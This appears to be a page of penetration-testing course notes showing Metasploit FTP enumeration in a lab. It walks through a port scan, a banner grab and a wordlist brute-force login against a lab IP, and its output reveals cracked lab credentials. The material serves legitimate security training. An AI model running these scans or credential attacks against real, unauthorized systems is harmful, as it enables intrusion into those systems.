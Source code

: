 ❗📝 **On every attacker machine, run this command to start `msfconsole`:**

```bash
service postgresql start && msfconsole -q
```

- Setup a **global variable**. This will set the RHOSTS option for all the modules utilized:

```bash
setg RHOSTS <TARGET_IP>
```

#### [FTP](../assessment-methodologies/3-enumeration/ftp-enum.md)

> **`auxiliary/scanner/ftp/ftp_version`**

```bash
ip -br -c a
workspace -a FTP_ENUM
search portscan
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.146.175.3
run
```

```bash
[+] 192.146.175.3: - 192.146.175.3:21 - TCP OPEN
```

```bash
back
search type:auxiliary name:ftp
use auxiliary/scanner/ftp/ftp_version
set RHOSTS 192.146.175.3
run
```

```bash
[+] 192.146.175.3:21 - FTP Banner: '220 ProFTPD 1.3.5a Server (AttackDefense-FTP) [::ffff:192.146.175.3]\x0d\x0a'

search ProFTPD
```

> **`auxiliary/scanner/ftp/ftp_login`**

```bash
back
search type:auxiliary name:ftp
use auxiliary/scanner/ftp/ftp_login
show options
set RHOSTS 192.146.175.3
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
run
```

```bash
[+] 192.146.175.3:21 - 192.146.175.3:21 - Login Successful: sysadmin:654321
```
